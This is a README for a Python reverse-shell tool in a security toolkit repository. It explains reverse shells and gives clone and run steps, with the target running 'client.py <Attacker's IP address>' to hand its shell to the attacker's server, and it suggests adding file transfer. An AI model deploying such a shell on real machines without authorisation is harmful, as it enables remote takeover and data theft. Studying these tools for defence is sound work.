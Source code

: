 # Reverse Shell for Windows, Linux and Mac OS
The reverse shell's goal is to connect to a remote computer and redirect the input and output connections of the target system’s shell so the attacker can access it remotely. Reverse shells allow attackers to open ports to the target machines, forcing communication and enabling a complete takeover of the target machine. Therefore it is a severe security threat.

&nbsp;
## What is this project about?
Implementing a reverse shell in Python using sockets that can execute remote shell commands and send the results back to the server.

&nbsp;
## How to run this project?
**Step 1:** 
This project requires Python3 to run. You can download it from [HERE](https://www.python.org/downloads/).

**Step 2:**
Clone this repository:
    
    git clone https://github.com/NikunjKunduru/Cyber-Toolkit.git

**Step 3:**
Go to the cloned directory and run the following commands:
    
    cd Cyber-Toolkit/Reverse_Shell
    
    Attacker's shell:
        python3 server.py

    Target's shell:
        python3 client.py <Attacker's IP address>

&nbsp;
## Check-out
Add [download and upload](https://www.thepythoncode.com/article/send-receive-files-using-sockets-python) commands to download and upload files from/to the client. And many more! There are endless possibilities. The only limit here is your imagination!

&nbsp;
## DISCLAIMER 
Note that use this code only on a computer you have permission to. Use it at your own risk!

<br />

🤖**References:** https://www.thepythoncode.com
